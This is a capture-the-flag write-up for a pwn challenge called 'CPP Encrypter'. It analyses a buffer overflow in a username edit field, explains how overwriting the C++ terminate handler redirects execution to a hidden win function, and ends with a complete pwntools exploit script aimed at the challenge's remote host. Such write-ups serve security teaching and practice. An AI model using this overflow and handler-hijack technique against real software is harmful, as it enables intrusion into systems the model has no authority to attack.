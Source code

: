 # Overview

**Challenge Name :** CPP Encrypter

**Author :** @Capang

**Description :** I love C so much that I code a CPP program using C syntax

## Analysis

```c
    puts("\n--- Edit Profile ---");
    printf("Enter new username (leave empty to keep current): ");
    fgets(local_418,0x404,stdin);
```

There is an obvious BOF here because the username is originally of size 256 but its taking in 1028 characters when you try to edit your profile.

![image](https://github.com/user-attachments/assets/f3cac91b-b0ee-42c7-ab91-da2e95044fa3)

After going through the things that we can overwrite, this function looked the most interesting. Judging from its name `terminate handler`, we assumed that if we somehow managed to terminate the program without the traditional way, we can overwrite this handler to point to a function that we want. But which function?

![image](https://github.com/user-attachments/assets/ef2b0b65-3d1c-47ee-8868-d44d2f2ee96e)

After doing abit of going through every single function in the program, you will eventually stumble upon this interesting function. Next step is how to terminate the program in a different way? 

![image](https://github.com/user-attachments/assets/1ee643bd-6c97-4e19-a2d6-55ae51a84b10)

In the encrypt message function, if you give too many messages to encrypt, it will trigger bad array length. So the goal is simple

1. Overwrite terminate handler with the address of the useless function
2. Give a large number to encrypt message and terminate the program

```py
#!/usr/bin/python
from pwn import *

filepath = './encryption_app'
exe = context.binary = ELF(filepath)

host = "116.203.176.73"
port = 59656

r = lambda x: p.recv(x)
rl = lambda: p.recvline(keepends=False)
ru = lambda x: p.recvuntil(x, drop=True)
cl = lambda: p.clean(timeout=1)
s = lambda x: p.send(x)
sa = lambda x, y: p.sendafter(x, y)
sl = lambda x: p.sendline(x)
sla = lambda x, y: p.sendlineafter(x, y)
ia = lambda: p.interactive()
li = lambda s: log.info(s)
ls = lambda s: log.success(s)

def create(usr=b"a", pas=b"a"):
  sla(b"choice: ", "1")
  sla(b"username: ", usr) 
  sla(b"password: ", pas)

def login(usr=b"a", pas=b"a"):
  sla(b"choice: ", "2")
  sla(b"Username: ", usr) 
  sla(b"Password: ", pas)

def edit(usr=b"a", pas=b"a"):
  sla(b"choice: ", "3")
  sla(b": ", usr)
  # s(usr)
  sla(b": ", pas)

def encrypt(num, method, msg):
  sla(b"choice: ", "5")
  sla(b"hash? ", str(num))
  sla(b": ", msg)
  sla(b": ", str(method))

# p = exe.process()
# p = remote("localhost", 10002)
p = remote(host,port)

win = 0x401976

create()
login()
payload = b"A" * 0x148
payload += p64(win)

edit(payload)

sla(b"choice: ", "5")
sla(b"hash? ", str(10000000000000000))

p.interactive()
```
